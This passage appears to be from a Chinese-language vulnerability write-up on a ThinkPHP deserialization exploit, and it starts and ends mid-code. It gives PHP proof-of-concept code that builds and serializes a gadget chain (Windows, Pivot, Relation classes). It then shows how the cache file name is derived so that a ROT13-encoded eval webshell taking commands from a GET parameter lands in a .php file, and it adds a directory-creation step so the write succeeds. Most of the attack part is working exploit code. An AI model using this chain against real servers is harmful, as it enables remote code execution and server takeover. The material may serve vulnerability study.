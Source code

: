 ```php
        ];
        $this->tag = true;
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model{


}
use think\process\pipes\Windows;
echo urlencode(serialize(new Windows()));
```
- 生成文件名规则

```bash
md5('tag_'.md5($this->tag))
即:
md5('tag_c4ca4238a0b923820dcc509a6f75849b')
=>3b58a9545013e88c7186db11bb158c44
=>
<?cuc cucvasb();riny($_TRG[pzq]);?+ 3b58a9545013e88c7186db11bb158c44
最终文件名：
<?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php
```
- 在漏洞利用时需注意目录读写权限，可先控制 `options['path'] = './demo/'`，利用框架创建一个 `755` 文件夹（前提是具有权限），我们可以稍微修改下 payload 用于创建一个 `0755` 权限的目录（这里利用的是 `think\cache\driver\File:getCacheKey()` 中的 `mkdir` 函数），然后再往这个目录写文件
- poc 创建 demo 目录

```php
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{
    private $files = [];

    function __construct(){
        $this->files = [new Pivot()];
    }
}

namespace think\model;#Relation
use think\db\Query;
abstract class Relation{
    protected $selfRelation;
    protected $query;
    function __construct(){
        $this->selfRelation = false;
        $this->query = new Query();#class Query
    }
}

namespace think\model\relation;#OneToOne HasOne
use think\model\Relation;
abstract class OneToOne extends Relation{
    function __construct(){
        parent::__construct();
    }

```
